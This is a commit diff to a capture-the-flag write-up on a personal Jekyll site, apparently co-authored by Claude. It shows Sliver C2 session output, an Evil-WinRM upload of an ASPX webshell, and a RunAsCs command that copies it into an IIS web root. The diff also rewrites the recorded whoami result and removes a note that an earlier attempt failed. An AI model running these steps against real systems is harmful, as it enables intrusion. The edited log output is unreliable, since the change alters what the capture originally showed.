

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from _ctf/hacksmarter-city.md, in a window 1280 px wide and 1400 px high, scrolled down 31272 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix web_admin session flow: show correct token, split upload steps
- Show web_admin Sliver session with correct CITY\web_admin token
- Separate upload (sam.brooks Evil-WinRM) from copy to wwwroot
  (RunAsCs as web_admin) into distinct code blocks
- Note either session could have been used for the upload

Co-Authored-By: Claude Opus 4.6 <noreply@anthropic.com>

````diff
--- a/_ctf/hacksmarter-city.md
+++ b/_ctf/hacksmarter-city.md
@@ -1002,27 +1002,18 @@ With the sam.brooks Sliver session established, `RunAsCs` was used to execute th
 privileged token.
 ```
 
-Verifying the new session identity in Sliver:
+Verifying the new session identity in Sliver confirmed the `web_admin` token:
 
 ```
-[server] sliver > use
-
-[*] Active session BIG_BRICK (48141657-5ab2-4136-9037-95d6d3c8c025)
-
 [server] sliver (BIG_BRICK) > whoami
 
-Logon ID: CITY\sam.brooks
-[*] Current Token ID: CITY\sam.brooks
-[server] sliver (BIG_BRICK) >
+Logon ID: <err>
+[*] Current Token ID: CITY\web_admin
 ```
-
-The session came back as `sam.brooks` rather than `web_admin` due to token limitations with `RunAsCs`. A different approach was needed.
 
 ## 9.4 Webshell Deployment
 
-Since the Sliver stager through `RunAsCs` didn't yield a proper `web_admin` token, a different approach was needed. The `web_admin` account has write access to the IIS web root, so an ASPX webshell ([cmd.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)) was uploaded to `C:\inetpub\wwwroot\` to gain code execution as the IIS service account.
-
-Using the sam.brooks Evil-WinRM session, the webshell was uploaded and then copied to wwwroot via `RunAsCs` as `web_admin`:
+With a valid `web_admin` session, the next step was to deploy an ASPX webshell ([cmd.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)) to the IIS web root to gain code execution as the IIS service account. The webshell was first uploaded via the sam.brooks Evil-WinRM session (this could have been done through either session):
 
 ```
 *Evil-WinRM* PS C:\Users\sam.brooks\Documents> upload shell.aspx
@@ -1033,6 +1024,11 @@ command
 Info: Uploading /workspace/shell.aspx to C:\Users\sam.brooks\Documents\shell.aspx
 
 Info: Upload successful!
+```
+
+Then `web_admin` was used to copy the webshell into the IIS wwwroot directory:
+
+```
 *Evil-WinRM* PS C:\Users\sam.brooks\Documents> .\run.exe web_admin '[REDACTED]' "cmd /c copy C:\Users\sam.brooks\Documents\shell.aspx C:\inetpub\wwwroot\shell.aspx" -d city.local
 [*] Warning: User profile directory for user web_admin does not exists. Use --force-profile if you want to force the creation.
 [*] Warning: The logon for user 'web_admin' is limited. Use the flag combination --bypass-uac and --logon-type '5' to obtain a more
````
